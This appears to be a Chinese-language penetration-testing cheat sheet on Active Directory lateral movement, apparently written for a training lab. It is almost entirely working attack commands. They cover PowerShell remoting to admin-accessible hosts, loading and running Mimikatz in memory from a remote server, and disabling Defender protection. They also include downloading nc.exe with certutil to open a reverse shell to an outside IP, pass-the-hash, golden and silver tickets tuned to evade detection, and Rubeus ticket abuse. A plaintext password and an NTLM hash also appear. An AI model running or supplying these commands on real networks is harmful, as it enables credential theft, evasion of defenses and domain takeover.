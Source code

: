 # 查找本地管理员可以用powershell远程登录的电脑
```
PS C:\AD> . .\Find-PSRemotingLocalAdminAccess.ps1
PS C:\AD> Find-PSRemotingLocalAdminAccess
```
或者用powerview
```
Find-LocalAdminAccess
```


# 有LocalAdmin权限的，可以用以下命令在对方机器执行验证
```
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName dcorp-mgmt
```

# 横向移动到指定电脑
```
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local

Enter-PSSession dcorp-adminsrv.dollarcorp.moneycorp.local # 也可以不要参数
```


# 获取一个登陆的session，以便根据session指定操作
账号ciadmin可以横向登录到计算机dcorp-mgmt.dollarcorp.moneycorp.local，我们把登录的session保存在$sess
```
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
```

在指定session里载入Mimikatz
```
Invoke-Command -FilePath C:\AD\Invoke-Mimikatz.ps1 -Session $sess
```

指定目标靶机的session，在目标靶机关闭杀软（效果跟bypass AMSI大同小异，不过因为我们是目标靶机上的管理员，因此可以直接关闭）
```
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

指定目标靶机的session，在目标靶机执行Mimikatz
```
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

# 把powershell加载到内存
```
iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

# 以某个用户的身份登录到某台电脑（需要明文密码）
```
Enter-PSSession –Computername dcorp-dc –credential dcorp\Administrator
```

# 下面方法适用于得到了用户明文密码,但不是在RDP环境中（比如反弹shell中），使用这个用户身份执行命令

处理密码
```
$pw = ConvertTo-SecureString "96dQ(8i498g32N" -AsPlainText -Force
```
处理用户凭据
```
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
```
测试执行whoami命令
```
Invoke-Command -Computer hutchdc -ScriptBlock {whoami} -Credential $creds
```
如：
```
PS C:\windows\system32\inetsrv> Invoke-Command -Computer hutchdc -ScriptBlock { whoami} -Credential $creds
Invoke-Command -Computer hutchdc -ScriptBlock { whoami} -Credential $creds
hutch\administrator
```
表明用户身份是```hutch\administrator```

把nc.exe传到靶机
```
certutil -urlcache -split -f "http://192.168.54.200/nc.exe" nc.exe
```
用nc反弹一个shell回来
```
Invoke-Command -Computer hutchdc -ScriptBlock {C:\windows\temp\nc.exe 192.168.54.200 593 -e cmd.exe} -Credential $creds
```



# 以某个用户的身份打开一个新的shell，有这个用户的所有权限，但是还在本机环境中（需要NTML）
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:af0686cc0ca8f04df42210c9ac980760 /run:powershell.exe"'
```

# 使用 Mimikatz 进行横向运动
```
# Overpass-the-hash (more risky than Rubeus, writes to LSASS memory)
sekurlsa::pth /user:Administrator /domain:targetdomain.com /ntlm:[NTLMHASH] /run:powershell.exe

# Or, a more opsec-safe version that uses the AES256 key (similar to with Rubeus above) - works for multiple Mimikatz commands
sekurlsa::pth /user:Administrator /domain:targetdomain.com /aes256:[AES256KEY] /run:powershell.exe

# Golden ticket (domain admin, w/ some ticket properties to avoid detection)
kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /krbtgt:[KRBTGTHASH] /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt

# Silver ticket for a specific SPN with a compromised service / machine account
kerberos::golden /user:Administrator /domain:targetdomain.com /sid:S-1-5-21-[DOMAINSID] /rc4:[MACHINEACCOUNTHASH] /target:dc.targetdomain.com /service:HOST /id:500 /groups:513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

# 使用Rubeus.exe横向运动
我们可以使用 Rubeus 执行一种称为“Overpass-the-Hash”的技术。在这种技术中，我们不是直接传递散列（另一种称为传递散列的技术），而是使用帐户的 NTLM 散列来请求有效的 Kerberost 票证 (TGT)。然后，我们可以使用此票证作为目标用户向域进行身份验证。
```
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs

.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt

# More stealthy variant, but requires the AES256 key (see 'Dumping OS credentials with Mimikatz' section)

.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256KEY] /opsec /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)

.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
```


# 使用 WMI 执行命令
```
Invoke-WmiMethod win32_process -ComputerName dc.targetdomain.com -name create -argumentlist "powershell.exe -e $encodedCommand"
```


# 使用powershell远程执行命令
```
# Create credential to run as another user (not needed after e.g. Overpass-the-Hash)
# Leave out -Credential $Cred in the below commands to run as the current user instead

$SecPassword = ConvertTo-SecureString 'VictimUserPassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\targetuser', $SecPassword)

# Run a command remotely (can be used on multiple machines at once)

Invoke-Command -Credential $Cred -ComputerName dc.targetdomain.com -ScriptBlock {whoami; hostname}

# Launch a session as another user (prompt for password instead, for use with e.g. RDP)
Enter-PsSession -ComputerName dc.targetdomain.com -Credential DOMAIN/targetuser

# Create a persistent session (will remember variables etc.), load a script into said session, and enter a remote session prompt

$sess = New-PsSession -Credential $Cred -ComputerName dc.targetdomain.com
Invoke-Command -Session $sess -FilePath c:\path\to\file.ps1
Enter-PsSession -Session $sess

# Copy files to or from an active PowerShell remoting session
Copy-Item -Path .\Invoke-Mimikatz.ps1 -ToSession $sess -Destination "C:\Users\public\"
```